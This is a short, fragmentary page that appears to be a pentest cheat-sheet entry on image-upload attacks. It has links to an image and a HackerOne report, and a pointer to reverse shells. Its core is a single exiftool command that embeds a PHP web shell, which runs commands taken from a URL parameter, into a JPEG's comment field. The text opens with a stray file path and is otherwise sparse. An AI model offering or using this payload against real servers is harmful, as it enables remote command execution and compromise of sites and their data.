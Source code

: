 ![](https://miro.medium.com/max/875/1*ox8sx_Uhdc7F7o5OxKiFdw.png)

https://hackerone.com/reports/964550

Also see Reverse shell 
`exiftool -Comment="<?php echo shell_exec($_GET['cmd']); ?>" img.jpg`